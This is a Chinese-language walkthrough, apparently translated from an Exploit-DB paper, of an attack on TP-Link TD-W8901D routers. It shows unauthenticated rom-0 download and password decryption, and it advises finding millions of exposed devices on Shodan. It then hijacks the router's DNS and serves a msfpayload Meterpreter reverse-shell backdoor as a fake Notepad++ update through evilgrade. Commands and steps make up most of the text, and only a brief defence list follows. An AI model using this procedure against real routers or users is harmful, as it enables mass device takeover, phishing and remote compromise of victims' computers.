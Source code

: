 # TPLINK渗透实战

**from: http://www.exploit-db.com/wp-content/themes/exploit/docs/33369.pdf**

0x00 工具
-------

* * *

一台笔记本电脑 TD-W8901D路由器（firmware 6.0.0） 虚拟机(WIN7)、Kali Linux（攻击机）、evilgrade（一个模块化的脚本框架，可实现伪造的升级、自带DNS和WEB服务模块，http://www.infobyte.com.ar/down/isr-evilgrade-Readme.txt) Metasploit。

0x01 示例
-------

* * *

**互联网攻击示意图：**

![enter image description here](http://drops.javaweb.org/uploads/images/e0c6c8f6f9d6b6717a0d5e1dd358d690591c8513.jpg)

**局域网攻击示意图**

![enter image description here](http://drops.javaweb.org/uploads/images/e0cdfcc988e1b8ea53ae92a093f48f243c3eb583.jpg)

市场上有很多类型的路由器可用，但绝大部分从未升级固件，所以可对大多数家用路由进行这个攻击，在这个项目中使用的是最常见的TPlink路由器。

TPLINK某些版本有一个关键的漏洞：未授权访问Firmware/Romfile界面，无需登陆密码，像这样http://IP//rpFWUpload.html。

同时也可以下载romfile备份文件（rom-0）,像这样：http://IP address/rom-0。

步骤一：下载rom文件![enter image description here](http://drops.javaweb.org/uploads/images/d8b8ce3bfaa815e441bf1a39a4632312901737d5.jpg)

下载回来的rom文件需要逆向工程得到明文密码，但有一个更简单的方法，去俄罗斯的一个网站可以解密 http://www.hakim.ws/huawei/rom-0/

步骤二：使用账号密码登陆![enter image description here](http://drops.javaweb.org/uploads/images/f7697aa0a2242fb62f09df8c3f56975af092e967.jpg)

第三步：使用搜索引擎SHODAN 搜索RomPager，可在互联网上找到700多万个这种设备![enter image description here](http://drops.javaweb.org/uploads/images/9adf04fd5f2643ce33407366780e9a6dc7cf0eb2.jpg)

简单的改变一下路由器的DNS，就可以重定向用户的请求，这个方法可以用来钓鱼（从我了解的情况看来，国内已经有大批路由被利用，并已经被黑产用作钓鱼欺诈，黑产表打我，我猜的）。但这个太简单了，作者希望玩的更高(hua)深(shao)一些。

默认DNS的配置是这样：![enter image description here](http://drops.javaweb.org/uploads/images/d0850c44c24db1e6ff0c188d75d9636f6ba95fa0.jpg)

改成攻击者自己的DNS：

![enter image description here](http://drops.javaweb.org/uploads/images/7aa8487f0df0c14f0363ecca2bd1f5260c08bbc4.jpg)

攻击系统：DNS服务器一台、kali预装了evilgrade 和metasploit。

![enter image description here](http://drops.javaweb.org/uploads/images/a97b422be089269e5bc32558dcbaafd4334cbe62.jpg)

第五步：建一个带后门的payload，给用户发送升级指令。LHOST= 攻击者机器IP和 LPORT =任何开放的端口。

```
Commad:@@# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.5.132 LPORT=8080 x > navebackdoor.exe 

```

![2014071323521922657.jpg](http://drops.javaweb.org/uploads/images/d283d8879f7a3f653e6a8960e7f5b131d81d4a66.jpg)

第六步：启动metasploit、运行payload

![2014071323523583152.jpg](http://drops.javaweb.org/uploads/images/a3fd17d75be249e2ee98abfbc994f741fba0e1e9.jpg)

 ![2014071323530565178.jpg](http://drops.javaweb.org/uploads/images/3f8812694ee30ca9fd2611beed2fa0a9a19b87e9.jpg)

![2014071323531775176.jpg](http://drops.javaweb.org/uploads/images/554cb411ff5891f51bc2f9309fad2f0de9a4c909.jpg)

第七步：设置监听主机和监听端口，命令：set LHOST（攻击者的IP）、set LPORT（监听端口，创建后门时分配的）、exploit（进行攻击）

![2014071323533763041.jpg](http://drops.javaweb.org/uploads/images/feb5c76ce9c5fd54fd7b3e0ae3f85b94d302110f.jpg)

第八步：启动假的WEB升级服务器evilgrade，执行show modules后，可以看到很多假更新模块，这里选用notepadplus

![2014071323535610035.jpg](http://drops.javaweb.org/uploads/images/3783638f23050cb9e6511a55a312366058923488.jpg)

![2014071323541051845.jpg](http://drops.javaweb.org/uploads/images/68f416f65bac8f390661ea621f903804b2d03927.jpg)

![2014071323542812615.jpg](http://drops.javaweb.org/uploads/images/562b094514d48bf66ce04d24f96759435fcc2ddb.jpg)

第九步：show options可以看到模块的使用方法，设置后门升级文件路径使用agent：

```
Set  agent  ‘[“<%OUT%>/root/Desktop/navebackdoor.exe<%OUT%>”]’ 

```

![2014071323544287175.jpg](http://drops.javaweb.org/uploads/images/246c376a97fad4096518e7e3197550406de9db44.jpg)

第十步：完成以上动作后，启动EvilGrade的WEB服务器：

```
start

```

![2014071323550126547.jpg](http://drops.javaweb.org/uploads/images/81f3c0b9f7499f5761c8fcf3cf2f90082b87f2ba.jpg)

第十一步：等受害者打开notepadplus，一旦打开就会弹出要求更新的提示，更新过程中将会加载我们的后门程序。

![2014071323551940538.jpg](http://drops.javaweb.org/uploads/images/81f38080a2f6972084577ec80fccee4dcc85c526.jpg)

![2014071323553365266.jpg](http://drops.javaweb.org/uploads/images/d2e62c3f1a5c1956b783075f8920057296dbca59.jpg)

第十二步：在攻击机器上，evilgrade和Metasploit建立会话，等待返回的shell

![2014071323554774816.jpg](http://drops.javaweb.org/uploads/images/f8d927eaa8578dbe48466b433fc48b3aa311ab3b.jpg)

第十三步：拿到shell，使用sysinfo查看一下：

![2014071323560039521.jpg](http://drops.javaweb.org/uploads/images/6c08337533bba0ccd4ce6ee899572255d56615ef.jpg)

输入help可以看到很多命令，包括scrrenshot、killav,运行vnc 等

![2014071323561637433.jpg](http://drops.javaweb.org/uploads/images/0b2d34c65566f171b1d4fe9cc9a4997a17017fcd.jpg)

![2014071323563672357.jpg](http://drops.javaweb.org/uploads/images/9655d956ed19847d0d29efc05182d6626fa3e0dc.jpg)

0x02 防御方法
---------

* * *

经常升级你的路由器版本

路由器不要在公网暴露

系统和软件升级时检查证书

设置静态IP，比如google的8.8.8.8、8.8.4.4（广告：阿里巴巴的公共dns 223.5.5.5 和 223.6.6.6）